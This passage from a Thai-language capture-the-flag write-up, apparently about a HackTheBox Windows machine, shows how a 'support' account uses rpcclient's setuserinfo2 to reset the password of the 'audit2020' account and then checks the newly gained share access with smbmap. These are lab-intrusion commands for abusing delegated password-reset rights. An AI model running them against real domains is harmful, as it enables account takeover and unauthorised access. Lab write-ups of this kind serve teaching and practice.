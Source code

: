 
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U support //10.10.10.192
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

## รหัสผ่านง่ายไป ติด Password policy
rpcclient $> setuserinfo2 audit2020 23 'password'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION

rpcclient $> setuserinfo2 audit2020 23 'P@ssw0rd@@@'
rpcclient $> 

```

![](./IMG/004.png)

ตรวจสอบสิทธิด้วย smbmap จะเห็นว่า audit2020 สามารถเข้าถึงไฟล์ forensic ได้แล้ว
```bash
smbmap -H 10.10.10.192 -u audit2020 -p 'P@ssw0rd@@@'
```
![](./IMG/005.png)
ภาพด้านบนเป็นของ audit2020 และภาพด้านล่างเป็นของ support จะเห็นได้ว่าสิทธิการเข้าถึงแตกต่างกัน